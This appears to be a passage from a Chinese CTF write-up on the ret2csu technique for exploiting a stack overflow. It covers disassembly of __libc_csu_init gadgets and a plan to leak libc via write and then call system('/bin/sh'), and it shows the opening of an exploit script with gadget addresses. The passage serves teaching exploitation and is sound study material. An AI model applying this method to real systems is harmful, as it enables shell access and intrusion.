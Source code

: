 objdump

```shell
  400604:       75 ea                   jne    4005f0 <__libc_csu_init+0x50>
  400606:       48 8b 5c 24 08          mov    rbx,QWORD PTR [rsp+0x8]
  40060b:       48 8b 6c 24 10          mov    rbp,QWORD PTR [rsp+0x10]
  400610:       4c 8b 64 24 18          mov    r12,QWORD PTR [rsp+0x18]
  400615:       4c 8b 6c 24 20          mov    r13,QWORD PTR [rsp+0x20]
  40061a:       4c 8b 74 24 28          mov    r14,QWORD PTR [rsp+0x28]
  40061f:       4c 8b 7c 24 30          mov    r15,QWORD PTR [rsp+0x30]
  400624:       48 83 c4 38             add    rsp,0x38
  400628:       c3                      ret
  400629:       0f 1f 80 00 00 00 00    nop    DWORD PTR [rax+0x0]
```

感觉IDA反汇编出来的代码风格，像是AT&T与Intel的结合。

然后再看这一段：

![image-20230424184121691](https://gitee.com/noble_chiam/Pic-Go-Pic-Bed/raw/master/Typora/2023-04-24 18:41:23.png)

可以将r15中的值赋给rdx，将r14中的值赋给rsi，将r13中的值赋给edi，

![img](https://pic2.zhimg.com/80/v2-7dc5a9e6cc4f5784aa79c691c6888df9_720w.webp)

如图，我们虽然只能用RDI的低32位，这三个寄存器就是**0x64函数调用中的前三个参数**，如果需要用到含有三个参数的函数的时候，那么这一段gadget就即可以按我们所希望的控制全部参数，然后一个call命令，call命令指向的地址为[r12+rbx*8]，那么可以通过控制r12和rbx来跳到我们所希望的地址。

我们再看这一部分：

![image-20230424190931578](https://gitee.com/noble_chiam/Pic-Go-Pic-Bed/raw/master/Typora/2023-04-24 19:09:32.png)

JNZ，不等于0的时候跳转n是not不,z是zero零.jnz检验的标志位就是zf

cmp jnz是一种类似于if-else的控制结构，它由一个比较指令cmp和一个跳转指令jnz组成。程序会先执行cmp指令，比较两个操作数的值，如果结果不相等则执行jnz指令，如果结果相等，则不会执行jnz指令，我才用最简单方式，让他不执行跳转，rbx+1==rbp时不会执行，我们采用最简单的方式，rbx=0 rbp=1的设置方式。

就此我们就可以进行PayLoad了：

首先，利用栈溢出执行 libc_csu_gadgets 获取 write 函数地址，用LibcSearcher识别libc版本，从而获得system地址，ret2libc

然后，再次利用栈溢出执行 libc_csu_gadgets把system和/bin/sh写入.bss段

最后，再次利用栈溢出执行 libc_csu_gadgets直接call到之前的.bss地址，执行system（“/bin/sh”）

**第一次Pyload：**

利用栈溢出执行 libc_csu_gadgets 获取 write 函数地址，用LibcSearcher识别libc版本，从而获得system地址，ret2libc

```shell
csu_gadget_1 = 0x00000000004005F0 
#_libc_csu_init函数中位置靠前的gadget，即向rdi、rsi、rdx寄存器mov的gadget
# .text:00000000004005F0 4C 89 FA                      mov     rdx, r15
# .text:00000000004005F3 4C 89 F6                      mov     rsi, r14
# .text:00000000004005F6 44 89 EF                      mov     edi, r13d
# .text:00000000004005F9 41 FF 14 DC                   call    qword ptr [r12+rbx*8]

csu_gadget_2 = 0x0000000000400606
#_libc_csu_init函数中位置靠后的gadget，即pop rbx、rbp、r12、r13、r14、r15寄存器的gadget
# .text:0000000000400606 48 8B 5C 24 08                mov     rbx, [rsp+38h+var_30]
# .text:000000000040060B 48 8B 6C 24 10                mov     rbp, [rsp+38h+var_28]
# .text:0000000000400610 4C 8B 64 24 18                mov     r12, [rsp+38h+var_20]
# .text:0000000000400615 4C 8B 6C 24 20                mov     r13, [rsp+38h+var_18]
# .text:000000000040061A 4C 8B 74 24 28                mov     r14, [rsp+38h+var_10]
# .text:000000000040061F 4C 8B 7C 24 30                mov     r15, [rsp+38h+var_8]
# .text:0000000000400624 48 83 C4 38                   add     rsp, 38h
# .text:0000000000400628 C3      
#----------------------------------------------------------------------------------


```